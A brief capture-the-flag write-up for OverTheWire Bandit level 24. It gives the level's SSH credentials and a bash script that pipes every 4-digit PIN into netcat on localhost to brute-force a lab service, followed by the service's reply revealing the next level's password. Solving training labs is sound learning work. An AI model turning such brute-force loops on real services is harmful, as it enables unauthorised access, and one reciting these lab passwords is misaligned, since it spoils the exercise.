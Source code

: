 # Bandit Level 24

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

The challenge here is to write a script that loops and calls netcat.

> seq 0 9999


```
#!/bin/bash
PWD='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
for n in `seq 1 9999`;
do
    echo "$PWD $n" #echo a line into the stdin of nc
done | nc localhost 30002

```

> Correct!
> The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
>
> Exiting.
